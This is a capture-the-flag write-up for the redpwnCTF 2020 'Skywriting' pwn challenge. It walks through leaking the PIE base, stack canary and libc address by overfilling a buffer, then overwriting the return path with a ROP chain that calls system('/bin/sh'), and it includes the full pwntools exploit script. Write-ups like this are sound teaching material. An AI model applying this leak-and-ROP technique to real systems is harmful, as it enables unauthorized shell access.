 # Skywriting
Pwn, 480

> It's pretty intuitive once you disambiguate some homoglyphs, I don't get why nobody solved it...
> 
> nc 2020.redpwnc.tf 31034

From the given Dockerfile, it's running on Ubuntu 18.04, which uses `libc.2-27.so`.

`pwn checksec skywriting` gives:
```
[*] '/home/boshua/skywriting/bin/skywriting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All protections, yikes.

Open in Ghidra.

There's a check in the beginning to see if you entered a `1` to the first prompt. If not, you got a fake shell. I suppose this was used to include `system` in the PLT but I didn't use it anyway.

If you enter the strcmp'd string, `notflag{a_cloud_is_just_someone_elses_computer}`, to the second prompt, you see some suspicious characters before the `??`.

The program loops until the strcmp returns 0. It repeatedly reads in to the same buffer, so any data previously in the buffer will remain there so long as it's not overwritten by new data.

There's a pretty obvious buffer overflow, as `read` reads up to 0x200 characters, but there is a stack canary in place so I leaked that.

Remember, `printf` prints up until nullbytes. So, I can leak as much as I want by filling the buffer up to where I want to leak from.

I first leaked the PIE base, as that's where the gadgets are offset from.

Some gdb inspection reveals that there is a PIE pointer on the stack, and I needed 88 characters in the buffer to print it. I sent 87 "A"s, as there's still a newline (0xa) at the end of the input. Then, I subtracted an offset I found in GDB from it and got the actual PIE base.

Next, I leaked the canary, which is located right after the buffer. I filled up the buffer with 136 "A"s and a newline, leaking the canary.

You can't only send 135 "A"s and a newline, because the last byte of the canary ends in a 0x00 (probably to prevent these kinds of attacks from happening).

Luckily, the last byte of canaries are `0x00`.

Remember to replace the last byte of the receieved canary with `0x00` (it'll be a `0xa` from the newline).

After that, I leaked libc. It turns out there is a libc pointer which I leaked with 151 "A"s and a newline. Then I calculated the libc base using an offset I found in GDB, allowing me to ret2libc.

Finally, I overwrote the base pointer (ebp) with a ROP chain which eventually calls system, and also kept the canary unmodified using the leaked canary.

On the last iteration, I exited so RBP gets returned to. So I sent the string to get strcmp to return 0, `notflag{a_cloud_is_just_someone_elses_computer}\n`.

There should be a `chr(0)` at the end of the string, so strcmp knows when to stop comparing.

Strcmp will see:
`notflag{a_cloud_is_just_someone_elses_computer}\n<null byte>\n`, and will only compare up to and including `notflag{a_cloud_is_just_someone_elses_computer}\n`.

So, the loop will terminate, and the program will try to return to RBP, which is now a ROP chain, spawning a shell.

```python
from pwn import *


p = remote("2020.redpwnc.tf", 31034)
#p = process("./bin/skywriting")
e = ELF("./bin/skywriting")
LIBC = ELF("./libc-2.27.so")


'''
gdb.attach(p, """pie break * 0x9ad
pie break * 0xa90
pie break * 0xb13
pie break * 0xb55
""")
'''

p.recvuntil("? ")
p.sendline("1")

# begin exploit
p.recvuntil(": ")

# leak pie base
p.sendline("A"*87)
print("sent pie leak")

dat = p.recvuntil(": ").lstrip("A").strip()
#print("dat", dat)
pie_leak = u64(dat[:6].ljust(8, "\x00"))

print("pie_leak", hex(pie_leak))

pie_base = pie_leak - 0xbbd

print("pie_base", pie_base)

# leak canary
p.sendline("A"*136)
print("sent canary leak")
dat = p.recvuntil(": ").lstrip("A")
#print("dat", dat)

canary = u64(dat[:8].ljust(8, "\x00"))


canary = list(hex(canary)[2:])
canary[-1] = "0"
canary = int(''.join(canary), 16)

print("canary", hex(canary))
#p.interactive()

# leak libc address
exploit = ""
exploit += "A"*151
p.sendline(exploit)
print("sent rbp exp")

dat = p.recvuntil(": ").lstrip("A").strip()

leak = u64(dat[:6].ljust(8, "\x00"))
print("leak", hex(leak))

LIBC.address = leak - 0x21b97

print("libc address", hex(LIBC.address))


# exploit bof

ret_g = pie_base + 0x78e
pop_rdi_ret_g = pie_base + 0xbd3

libc_system = LIBC.sym["system"]
binsh_str = next(LIBC.search("/bin/sh"))

print("ret", hex(ret_g))
print("pop rdi", hex(pop_rdi_ret_g))
print("libc system", hex(libc_system))
print("binsh str", hex(binsh_str))

exploit = ""
exploit += "A"*135 + chr(0)
exploit += p64(canary)
exploit += p64(0) + p64(ret_g) + p64(pop_rdi_ret_g) + p64(binsh_str) + p64(libc_system)

p.sendline(exploit)
print("sent bof")

# break out of loop
p.recvuntil(": ")
exploit = ""
exploit += "notflag{a_cloud_is_just_someone_elses_computer}\n"
exploit += chr(0)

p.sendline(exploit)
print("sent termination")

p.interactive()
```

Flag: `flag{a_cLOud_iS_jUSt_sOmeBodY_eLSes_cOMpUteR}`